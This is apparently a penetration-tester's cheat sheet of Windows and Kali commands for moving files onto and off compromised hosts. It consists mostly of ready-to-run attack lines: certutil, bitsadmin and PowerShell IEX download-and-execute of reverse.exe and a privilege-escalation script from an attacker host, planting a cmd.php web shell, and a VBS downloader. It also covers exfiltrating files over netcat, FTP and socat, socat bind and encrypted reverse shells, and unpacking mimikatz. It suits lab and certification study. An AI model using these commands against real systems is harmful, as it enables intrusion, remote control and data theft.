The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|
#### Certutil
[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
certutil -urlcache -split -f http://$KALI/reverse.exe
```

If unable to save in that location, simply find TEMP, save and execute there.
```bath - windows
echo %TEMP%
```

```batch - windows
cd %TEMP%
```

```batch - windows
certutil -urlcache -split -f http://$KALI/reverse.exe C:\Windows\TEMP\reverse64.exe
```

```batch - windows
C:\Windows\TEMP\reverse64.exe
```

Run PS download command in CMD (Note that we will need to press **enter** after the PowerShell command to get the cmd prompt back.):
```
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe', '%TEMP%\Tools\reverse.exe')"
```

#### CMD Download and execute without temp file

```bash
curl -s https://example.com/test.bat | cmd /v:on /k
```

#### PowerShell Download and execute:
```powershell - windows
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-LovelyPotato.ps1')
```

```powershell - windows
powershell -command iex (New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-LovelyPotato.ps1')
```


#### Powershell Just Download:
```powershell - windows
iwr http://$KALI/cmd.php -OutFile C:\xampp\htdocs\cmd.php
```

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/reverse.exe' -OutFile reverse.exe
```

```powershell - windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','reverse.exe')"
```

#### SMB
[[Python#SMB File Transfer]]

#### Rdesktop share folder < BEST FOR BINARY FILES!
[[Port 3389 - RDP ~#rdesktop]]

#### Bitsadmin
```batch - windows
bitsadmin /create 1 bitsadmin /addfile 1 http://$KALI:80/reverse64.exe reverse64.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

```
bitsadmin /transfer n http://$KALI/nc.exe C:\Temp\nc.exe`
```


![[Python#FTP Server]]

#### PureFTPD_Installation
```bash
sudo apt install pure-ftpd
```

```bash
chmod +x PureFTPD_Setup.sh
```

```powershell
sudo ./PureFTPD_Setup.sh
```

#### PureFTPD_setup.sh

```batch
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

#### PureFTPD_file transfer
```bash - Kali
service pure-ftpd start
```

```batch - Windows
ftp $KALI
```

```batch - Windows
offsec
```

```batch - Windows
lab
```

```batch - Windows
binary
```

```batch - Windows
put winpeas.txt
```

```bash - Windows
less -r winpeas.txt
```


### wget.vbs
```batch - kali
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

After you've created wget.vbs
```batch - kali
cscript wget.vbs http://$KALI/nc.exe nc.exe
```

##### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

PowerShell example:
```
cmd /c "nc.exe -w 3 [destination] 1234 < winpeas.txt"
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Windows Bind Shell
```
socat TCP4-LISTEN:443 EXEC:cmd.exe,pipes
```

```
socat - TCP4:$TARGET:443
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Powershell unzip a file
```
expand-archive -path mimikatz.zip
```
